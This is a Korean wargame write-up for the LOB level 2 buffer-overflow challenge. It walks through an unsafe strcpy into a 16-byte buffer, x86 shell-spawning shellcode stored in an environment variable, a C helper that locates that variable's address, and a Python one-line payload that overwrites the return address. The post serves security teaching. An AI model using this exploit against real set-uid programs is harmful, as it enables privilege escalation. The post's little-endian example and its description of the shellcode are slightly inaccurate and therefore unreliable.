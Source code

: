 ```yaml
---
title: BOF/ LOB-level2(gremlin)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식이다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 2(gremlin)
**ID : gremlin**  
**PASSWD : hello bof world**         

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level2/1.PNG)  
사용자 cobolt의 권한의 cobolt파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 cobolt의 권한으로 파일을 실행할 수 있다.**  
**cobolt파일이 쉘을 실행시키도록 한다면 사용자 cobolt의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - cobolt
        - small buffer
*/

int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
{% endhighlight %}  

**cobolt.c**

### 소스분석  
1. buffer의 크기가 16Byte이다.  
[LOB(level1)](https://limjunho.github.io/2019/09/29/LOB-level1(gate).html)**와 같이 쉘코드를 사용하기엔 buffer의 크기가 작다.**  
2. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
3. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력하는 소스(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 16Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  

### Solution  
**환경변수에 쉘코드를 등록하고 환경변수의 주소를 buffer over-flow시켜 프로그램이 쉘코드를 실행하도록 공격한다.**  
what is 환경변수? - 프로세스가 컴퓨터에서 동작하는 방식에 영향을 미치는 동적인 값들의 모임으로 쉘에서 정의되고 실행하는 동안 프로그램에 필요한 변수를 나타냄.  

#### level2에서 사용한 쉘코드  
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 41Byte 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

![그림2](/assets/LOB/level2/2.PNG)  
**위와같이 환경변수에 쉘코드를 등록한다**  

**buffer over-flow를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(16Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### 쉘코드의 주소를 ret에 덮어씌우면 main함수가 종료되며 쉘코드를 실행시킬 것이다.  

### 환경변수 주소    

**환경변수의 주소를 얻는 프로그램을 코딩**  
<br />
{% highlight C linenos %}  
/* 환경변수의 주소는 bf로 시작한다 즉, 프로그램이 실행되면 환경변수의 데이터들이 스택 어딘가에 들어간다.
   따라서 프로그램 이름의 길이나 명령어의 길이등에 따라 환경변수의 주소가 바뀐다.
   아래의 소스는 정확한 주소를 획득할 수 있다. */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char* argv[]){
    char* ptr;
    
    ptr = getenv(argv[1]);
    ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;
    // argv[0]=./getenv	argv[2]=타깃 바이너리의 절대경로
    printf("%s will be at %p\n", argv[1], ptr);

    return 0;
}
{% endhighlight %} 
![그림3](/assets/LOB/level2/3.PNG)  
**첫 번째 인자는 환경변수 이름, 두 번째 인자는 타깃 파일의 절대경로이다.**  

### Attack  

환경변수의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./gremlin [dummy값] + [환경변수주소]**의 형태로 공격.  
**이 때 dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 20Byte여야 한다.**
**또한 RET에 덮을 환경변수의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림4](/assets/LOB/level2/4.PNG)  
공격 성공.   

**페이로드**  
```bash
$ ./cobolt `python -c "print 'A' *20 + '\xbb\xfe\xff\xbf'"`
```